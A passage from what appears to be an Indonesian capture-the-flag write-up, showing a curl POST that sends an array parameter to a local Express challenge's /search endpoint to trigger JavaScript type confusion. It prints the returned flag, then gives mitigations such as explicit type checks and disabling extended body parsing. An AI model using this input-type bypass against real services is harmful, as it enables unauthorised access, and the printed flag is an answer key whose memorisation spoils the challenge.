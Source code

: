 ### Eksekusi Serangan dengan `curl`

Eksploitasi dijalankan menggunakan `curl` untuk mengirim permintaan **POST** yang terformat dengan benar ke *endpoint* `/search`.

```bash
# Perintah yang digunakan di Terminal:
curl.exe -X POST -d "query[]=randomBytes(16).toString('hex')" http://localhost:10009/search
```

### Hasil dan Flag:

Server merespons dengan mengkonfirmasi keberhasilan *type confusion* dan menampilkan *flag* di dalam *response* HTML:

```
✅ Key matched: [ 'randomBytes(16).toString(\'hex\')' ]
🎉 Here is your flag: prelim{i_was_confused_ab_what_to_make--so_i_made_a_js_type_confusion_baby_challenge_ehhe}
```

**Flag:** `prelim{i_was_confused_ab_what_to_make--so_i_made_a_js_type_confusion_baby_challenge_ehhe}`

## 3\. Mitigasi (Pencegahan)

Kerentanan *Type Confusion* ini dapat dicegah dengan praktik keamanan *server-side* yang ketat:

1.  **Validasi Tipe Data Eksplisit:** Selalu periksa tipe data *input* pengguna sebelum memanggil *method* yang sensitif. *Developer* seharusnya secara eksplisit memeriksa apakah `query` adalah *string* sebelum memanggil `.includes()`.
    *Contoh perbaikan:* `if (typeof query !== 'string' || query.includes("String")) { ... }`

2.  **Konfigurasi `body-parser`:** Jika *server* tidak membutuhkan *parsing* *nested objects* atau *arrays*, atur `extended` ke `false`:

      * `app.use(bodyParser.urlencoded({ extended: false }));`
        Pengaturan ini memastikan *input* `query[]` akan diperlakukan sebagai *string* literal, bukan sebagai *array*, sehingga mencegah *type confusion*.
## Bukti 
<img width="1920" height="1080" alt="Screenshot 2025-09-24 220048" src="https://github.com/user-attachments/assets/efc22ff9-cace-427f-ac14-ceca0fd53e94" />

<img width="1920" height="1080" alt="Screenshot 2025-09-24 220216" src="https://github.com/user-attachments/assets/6510298c-8f66-4671-b33c-e138d165b2d1" />
